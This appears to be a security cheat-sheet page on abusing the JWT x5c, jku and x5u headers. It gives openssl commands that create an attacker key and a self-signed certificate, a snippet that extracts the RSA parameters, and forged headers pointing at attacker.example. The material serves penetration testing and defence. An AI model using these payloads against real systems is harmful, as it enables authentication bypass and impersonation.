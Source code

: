 **What it is**

- `x5c` contains an array of base64-encoded X.509 certificates (PEM content without the `-----BEGIN CERT-----` headers).
- The first certificate is the signing cert.

**Attack/abuse pattern**

- Attacker embeds their own self-signed certificate in `x5c[]`, signs the JWT with the corresponding private key, and if the verifier accepts embedded certs without validating trust chain or issuer, the token will be accepted.

``` bash
# Generate RSA private key (PEM)
openssl genrsa -out keypair.pem 2048

# Extract public key (PEM)
openssl rsa -in keypair.pem -pubout -out publickey.crt

# Convert private key to PKCS#8 (unencrypted)
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt \
  -in keypair.pem -out pkcs8.key

# Create self-signed x509 cert & private key (for x5u/x5c testing)
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout attacker.key -out attacker.crt
# extract PEM public key
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem

```

### Extract `n` and `e` (RSA parameters) from a public key (example Python)
_(Useful to create a JWK entry with `n` and `e` values — convert to base64url as required)_
``` bash
from Crypto.PublicKey import RSA

with open("publickey.crt", "r") as fp:
    key = RSA.importKey(fp.read())

print("n (hex):", hex(key.n))
print("e (hex):", hex(key.e))

# Note: To make a JWK, you should base64url-encode the big-endian byte sequences of n and e.
```

``` bash
// jku pointing to attacker-controlled JWKS
{
  "alg": "RS256",
  "kid": "attacker-1",
  "jku": "https://attacker.example/.well-known/jwks.json"
}

// x5u pointing to certificate under attacker control
{
  "alg": "RS256",
  "x5u": "https://attacker.example/attacker.crt"
}

// x5c embedding the attacker's certificate (base64-encoded DER)
{
  "alg": "RS256",
  "x5c": ["<base64(cert)>"]
}
```
